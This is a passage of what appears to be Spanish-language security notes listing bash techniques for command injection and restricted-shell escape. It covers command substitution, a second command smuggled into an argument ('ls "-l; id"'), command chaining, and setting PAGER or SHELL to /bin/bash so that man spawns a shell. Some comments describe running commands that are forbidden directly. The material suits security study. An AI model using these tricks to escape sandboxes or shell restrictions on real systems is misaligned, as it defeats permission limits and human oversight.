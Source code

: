 	```bash
	# Ejecuta `pwd` e inyecta su salida como argumento
	ls -l `pwd`
	# Usa sustitución de comandos con $()
	ls -l $(whoami)
	# Si el input no está saneado, ejecuta `id` con `ls`
	ls "-l; id"
	# Otro ejemplo con comando inyectado
	ls "$(echo -l; uname -a)"
	```
- Command substitution
	```bash
	 # Ejecuta `id`, y su salida se pasa como argumento a `ls`
	ls `id`       
	# Ejecuta `hostname` aunque esté prohibido directamente          
	ls $(hostname)
	```
- Command chaining 
	```bash
	# Ejecuta `ls -l` y luego `whoami`
	ls -l; whoami
	# Solo ejecuta `id` si `ls -a` se ejecuta correctamente
	ls -a && id
	# Pasa la salida de `ls` a `cat`
	ls | cat
	```
- Variables de entorno
	```bash
	# Cambia el PATH para que tus binarios se ejecuten antes
	export PATH=/my/bin:$PATH
	# Fuerza bash como shell predeterminada
	export SHELL=/bin/bash
	# Si un programa usa PAGER, puedes forzar bash
	export PAGER=/bin/bash
	# Lanza man, que usará PAGER
	man ls
	```
- Creación de funciones
	```bash
	# Define una función que lanza bash
	mycmd() { /bin/bash; }